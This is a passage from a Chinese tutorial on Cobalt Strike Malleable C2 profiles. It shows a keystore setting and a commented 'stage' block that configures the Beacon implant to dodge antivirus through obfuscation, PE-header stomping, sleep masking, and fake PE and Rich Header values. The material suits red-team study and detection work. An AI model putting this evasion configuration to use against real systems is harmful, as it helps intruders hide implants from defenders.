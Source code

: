 

后面你就可以在Profile文件使用新生成的Java KeyStore文件了，在Profile文件中你可以这样设置：

```apl
https-certificate {
    set keystore "C:\\path\\to\\your\\keystore.store";
    set password "mystorepassword";
}
```



### stage

之前说过的无阶段payload会远程加载并执行stage，其实这个stage就是一个反射dll(Beacon Dll)，通过修改stage块的内容可以扩展Beacon Dll的功能，以此达到一定的免杀效果

以下是一个stage代码块的例子：

```apl
stage {
    # 开启混淆，对生成的Beacon shellcode进行混淆
    set obfuscate "true";

    # 开启PE头覆盖，修改已加载的DLL的PE头部以逃避安全软件的检测
    set stomppe "true";

    # 开启清理功能，清理为Beacon加载而创建的资源，如线程和句柄
    set cleanup "true";

    # 让分配给Beacon的内存区域同时具有读、写和执行权限
    set userwx "true";

    # 开启智能注入，尝试避免在注入Beacon时引起异常
    set smartinject "true";
    
    # 在负载处于休眠状态时，对内存中的Beacon负载进行操作，改变其内存中的表现形式，使其更难被检测
    set sleep_mask "true";
    
    # 设置内存分配器的类型，使用Windows API中的"VirtualAlloc"函数
    set allocator "VirtualAlloc";

    # 定义用于替换Beacon反射性DLL的PE头的自定义字节
    set magic_pe "LE";

    # 定义PE头部的各个属性
    set checksum       "0";  # 设置PE头部的校验和
    set entry_point    "13760";  # 设置PE头部的入口点
    set image_size_x86 "548864";  # 设置PE头部的图像大小（x86）
    set image_size_x64 "548864";  # 设置PE头部的图像大小（x64）
    set name           "wwanapi.dll";  # 设置PE头部的名称

    # 设置用于替换Beacon反射性DLL的Rich Header的自定义字节
    set rich_header    "\x39\x39\x83\xe8\x7d\x58\xed\xbb\x7d\x58\xed\xbb\x7d\x58\xed\xbb\x74\x20\x7e\xbb\x3b\x58\xed\xbb\x26\x30\xee\xba\x7e\x58\xed\xbb\x26\x30\xe9\xba\x69\x58\xed\xbb\x7d\x58\xec\xbb\xbf\x58\xed\xbb\x26\x30\xec\xba\x78\x58\xed\xbb\x26\x30\xe8\xba\x71\x58\xed\xbb\x26\x30\xed\xba\x7c\x58\xed\xbb\x26\x30\xe3\xba\x1f\x58\xed\xbb\x26\x30\x12\xbb\x7c\x58\xed\xbb\x26\x30\xef\xba\x7c\x58\xed\xbb\x52\x69\x63\x68\x7d\x58\xed\xbb\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00";
}

```
